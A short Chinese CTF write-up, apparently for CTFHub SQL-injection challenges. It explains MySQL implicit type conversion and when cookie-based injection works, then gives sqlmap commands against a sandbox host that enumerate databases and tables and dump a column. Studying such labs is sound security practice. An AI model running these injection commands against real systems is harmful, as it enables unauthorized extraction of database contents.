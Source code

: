 **解题思路**

SQLmap跑

### Mysql结构

**MYSQL的隐式类型转换**
两个参数比较
- 至少有一个为NULL，则结果为NULL，不做类型转换
- 都是字符串，按照字符串比较，不做类型转换
- 都是整数，按照整数比较，不做类型转换
- 若不与数字比较，则将十六进制视为二进制字符串
- 一个为decimal，另一个为decimal或整数，则会将整数转为decimal比较，若有一个浮点数，则decimal转为浮点数比较
- 其它情况下，两个参数都会转为浮点数比较。

具体参考如下：
https://www.cnblogs.com/0yst3r-2046/p/12486654.html

### Cookie注入

**前提条件**

1. GET与POST请求的数据被过滤，但Cookie请求的数据并未过滤
2. 程序对请求数据的获取方式是直接request('xxx')的方式，并未指明使用request对象的具体方式进行获取，简单地说reuqests方法获取参数可以是在URL后面参数，也可以是cookie里面参数，没有做筛选。

![](./img/sql5.png)

**解题思路**

```
sqlmap --url=http://challenge-21cd4d01bf5d802d.sandbox.ctfhub.com:10080 --cookie "id=1" --dbs --level 2

sqlmap --url=http://challenge-21cd4d01bf5d802d.sandbox.ctfhub.com:10080 --cookie "id=1" -D sqli --tables

sqlmap --url=http://challenge-21cd4d01bf5d802d.sandbox.ctfhub.com:10080 --cookie "id=1" -D sqli -T dwwcxedsdj --columns


sqlmap --url=http://challenge-21cd4d01bf5d802d.sandbox.ctfhub.com:10080 --cookie "id=1" -D sqli -T dwwcxedsdj -C lmpfvsecrk --dump
```
### UA注入
